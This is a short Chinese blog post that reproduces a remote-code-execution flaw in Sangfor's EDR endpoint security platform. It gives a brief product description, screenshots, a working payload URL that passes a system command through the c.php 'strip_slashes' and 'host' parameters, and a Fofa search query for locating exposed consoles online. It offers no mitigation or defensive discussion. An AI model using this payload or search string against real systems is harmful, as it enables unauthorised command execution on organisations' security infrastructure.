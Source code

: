 # 深X服 EDR终端检测系统RCE漏洞复现




#### 简介

深信服终端检测响应平台EDR，围绕终端资产安全生命周期，通过预防、防御、检测、响应赋予终端更为细致的隔离策略、更为精准的查杀能力、更为持续的检测能力、更为快速的处置能力。在应对高级威胁的同时，通过云网端联动协同、威胁情报共享、多层级响应机制，帮助用户快速处置终端安全问题，构建轻量级、智能化、响应快的下一代终端安全系统。



#### EDR的界面

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/rce11.jpg"></img>





#### RCE Payload

```bash
https://xxx.com:xxx/tool/log/c.php?strip_slashes=system&host=id
```

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/rce22.jpg"></img>





#### **Fofa关键字** 

```bash
title="终端检测响应平台"
```



---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/%E6%B7%B1x%E6%9C%8D-edr%E7%BB%88%E7%AB%AF%E6%A3%80%E6%B5%8B%E7%B3%BB%E7%BB%9Frce%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/  

